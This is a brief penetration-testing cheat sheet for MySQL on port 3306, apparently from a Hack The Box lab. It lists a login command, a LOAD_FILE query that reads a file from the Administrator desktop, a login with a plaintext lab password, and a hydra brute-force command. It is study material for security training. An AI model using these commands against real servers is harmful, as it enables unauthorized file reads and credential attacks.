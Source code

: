 port: 3306


|  Commands | Description  |
|---|---|
|`mysql -u <user> -p<password> -h <FQDN/IP>`|Login to the MySQL server.|

### Load system files

```mysql
select LOAD_FILE("C:/Users/Administrator/Desktop/flag.txt");
```

### Connect to server

mysql -u fiona@inlanefreight.htb -p987654321 -h 10.129.187.61

### Brute force mysql
```shell
hydra -l fiona@inlanefreight.htb -P ./pws.list -f 10.129.5.123 mysql
```

